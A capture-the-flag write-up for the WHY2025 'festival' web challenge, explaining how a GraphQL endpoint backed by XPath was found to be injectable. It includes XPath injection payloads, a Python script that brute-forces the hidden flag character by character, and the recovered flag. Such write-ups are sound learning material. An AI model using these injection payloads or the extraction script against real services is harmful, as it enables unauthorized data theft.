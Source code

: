 # Web/festival
## Description

Every 4 years a Dutch hacker convention is organized. WHY2025 will be the 10th edition, an overview of the previous versions can be found on this page.
(there were no attachments it was a black box challenge)

## Challenge Overview
I was not able to solve this challenge during the CTF but I thought it was a great challenge so I could probably try to write a writeup for this challenge.OK so we were given a single page website 
and there was nothing no extra links or register/login so then I checked the network tab in which I saw GraphQL was being used to get the all the data for the site so I really though that it would be a classic 
GraphQL challenge where we probably had to find hidden queries and abuse arguments to dump the flag but I was not able to find anything with that,I dumped the whole schema 
`{"data":{"__schema":{"types":[{"name":"XMLQuery"},{"name":"Festival"},{"name":"String"},{"name":"FestivalFilter"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"Boolean"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}`
and like checked all the fields everything and couldn't find anything except the fact that root query name of the GraphQL was `XMLQuery` which was quite unusual (as usually the root query name is Query only) 
and it was suggesting something related to XML was involved here.

Then I was trying to cause an error or something that could reveal something and when I tried something like this 

```json
{
  "query": "{ festival(filter: {id: \"1'\"}) { abbreviation name description year } }"
}
```
which resulted din this error 

```json
{"errors":[{"message":"Invalid predicate","locations":[{"line":1,"column":3}],"path":["festival"]}],"data":{"festival":null}}
```
It does look like a usual GraphQL error but when you search this on google you would find this 
[StackOverflow](https://stackoverflow.com/questions/58069538/getting-error-invalid-predicate-in-lxml-when-using-xpath)

Which tell us that XPath query language being used to retrieve data from an XML document and honestly I never came across this so searched about it and found that we could try XPath
injection which is kinda similar to SQLi and then I found this blog which kinda explains everything about [XPath injection](https://www.vaadata.com/blog/xpath-injections-exploitations-and-security-tips/)

for verifying I tried this 
```json
{
  "query": "{ festival(filter: {id: \"1' and '1'='1\"}) { abbreviation name description year } }"
}
```
and in this I didn't get any error and got the response for id 1 which confirms that XPath injection is possible.

## Exploit 

After knowing that we have to do XPath inejction, we have to think in which node or like how can we search for the flag in the XML documnet, The first thing that you would try is to check if there's node named 
flag which I tried but no there wasn't then I looked all the operators that are there and then I found a operator `contains()` which helps in Character string search so we could brute-force the whole flag as 
we know the flag formt is something like `flag{md5}` so I checked this with something like  
```json
{
  "query": "query { festival(filter: {id: \"1' and contains(//*,'flag{') and '1'='1\"}) { abbreviation } }"
}

```

And in this we got the abbreviation of id1 so yea this worked now we have to make a script and get the flag char by char using flag format so here is the the script that can get you the flag but yeah it 
would take 3-4 minutes 
```python
import requests
import string
                                                           
URL = "https://festivals.ctf.zone/graphql"

CHARSET = "0123456789abcdef}"
flag = "flag{"

while not flag.endswith("}"):
    found_char = False

    for ch in CHARSET:
        injection = f"1' and contains(//*, '{flag + ch}') and 'a'='a"

        query = {
            "query": f'query {{ festival(filter: {{id: "{injection}"}}) {{ abbreviation }} }}'
        }

        response = requests.post(URL, json=query)
        data = response.json()

        if "festival" in data.get("data", {}) and data["data"]["festival"]:
            flag += ch
            print(f"[+] Found so far: {flag}")
            found_char = True
            break

    if not found_char:
        print("[!] No more characters found. Stopping.")
        break

print(f"[+] Final flag: {flag}")

```
And here's the flag `flag{6bb7325ab7e9e15cdfe30c0ccee79216}`
